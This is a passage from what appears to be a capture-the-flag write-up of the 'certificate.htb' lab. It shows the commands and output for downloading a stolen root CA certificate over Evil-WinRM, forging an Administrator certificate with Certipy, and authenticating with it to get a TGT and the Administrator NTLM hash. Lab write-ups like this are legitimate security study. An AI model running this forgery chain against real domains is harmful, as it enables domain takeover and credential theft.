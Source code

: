 <p class="indent-paragraph">
After successfully exporting the <code>Certificate-LTD-CA.pfx</code> file, the attacker proceeded to download it to their local machine using the built-in <code>download</code> functionality in Evil-WinRM. The file transfer completed without errors, making the root CA certificate and its private key available for offline use in subsequent attacks.
</p>

```
~$ *Evil-WinRM* PS C:\Users\Ryan.K> download Certificate-LTD-CA.pfx
                                        
Info: Downloading C:\Users\Ryan.K\Certificate-LTD-CA.pfx to Certificate-LTD-CA.pfx
                                        
Info: Download successful!
```

<p class="indent-paragraph">
Upon attempting authentication with <code>certipy-ad auth</code> using the downloaded PFX, an error was returned indicating a name mismatch and the absence of a valid identity in the certificate. This happened because the original root CA certificate does not contain a Subject Alternative Name (SAN) or User Principal Name (UPN) matching the target user <code>Administrator@certificate.htb</code><span class="codefix">.</span> To bypass this limitation, the attacker used Certipy’s <code>forge</code> command to generate a fake certificate signed by the trusted CA, embedding the desired UPN. This resulted in a forged certificate <code>forged_admin.pfx</code><span class="codefix">,</span> which could now be used for successful impersonation.
</p>

```
~$ certipy-ad auth -pfx Certificate-LTD-CA.pfx -dc-ip <IP> -user Administrator -domain certificate.htb
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'administrator@certificate.htb'
[*] Trying to get TGT...
[-] Name mismatch between certificate and user 'administrator'
[-] See the wiki for more information
                                                                                                                                                                         
~$ certipy-ad forge -ca-pfx Certificate-LTD-CA.pfx -upn 'administrator@certificate.htb' -out forged_admin.pfx 
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Saving forged certificate and private key to 'forged_admin.pfx'
[*] Wrote forged certificate and private key to 'forged_admin.pfx'
```

<p class="indent-paragraph">
Before attempting authentication with the forged certificate, the attacker ensured the local system time was synchronized with the Domain Controller using <code>ntpdate</code><span class="codefix">.</span> This step is critical, as Kerberos relies on tight time alignment to validate TGTs; significant drift would cause ticket requests to fail. Once the time was aligned, the attacker authenticated as <code>administrator@certificate.htb</code> using the forged certificate via <code>certipy-ad auth</code><span class="codefix">.</span> The operation succeeded, resulting in a valid TGT and the extraction of the NTLM hash for the domain Administrator account, completing the privilege escalation chain.
</p>
